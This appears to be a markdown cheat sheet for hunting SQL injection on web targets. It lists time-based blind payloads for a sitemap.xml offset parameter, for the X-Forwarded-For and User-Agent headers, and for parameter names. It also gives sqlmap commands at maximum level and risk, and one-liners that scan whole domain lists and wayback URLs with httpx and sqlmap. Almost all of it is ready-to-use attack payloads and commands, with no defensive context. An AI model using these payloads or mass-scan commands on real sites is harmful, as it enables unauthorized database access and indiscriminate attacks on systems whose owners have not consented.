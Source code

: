 ##### TOOLS
- sqlmap
- ghauri ==> this is best



##### SITEMAP
- sitemap.xml is present? . Try setting ?offset=1 parameter and if content changes, run sqlmap or ghauri   
- payload for sitemap.xml ==>             target[.]com/sitemap.xml?offset=1;SELECT IF((8303>8302),SLEEP(9),2356)#   ==> output time should be 9
- ```` sqlmap -u "target/sitemap.xml?offset=1" -p offset --level 5 --risk 3 --dbms=MySQL --hostname --test-filter="MySQL >= 5.0.12 stacked queries"````

##### X-FORWARDED-FOR AND USER-AGENT
- X-Forwarded-For: ```` 0'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z````
- User-Agent: ````"XOR(if(now()=sysdate(),sleep(6),0))XOR"````

###### TIP: if login page is built with php , use user-agent payload

##### IN PARAMETER
- testing in ?parameter=test by replacing below payload 
  ````?parameter[id) VALUES (NULL); WAITFOR DELAY '0:0:5';--]=test````





##### SQL IN MASS DOMAINS
````
cat domains.txt | httpx -silent -H "X-Forwarded-For: 'XOR(if(now()=sysdate(),sleep(20),0))OR" -rt -timeout 20 -mrt '>20'
cat waybackurls.txt| grep "\?" | head -20 | httpx -silent > urls;sqlmap -m urls --batch --random-agent --level 1 | tee sqlmap.txt

````


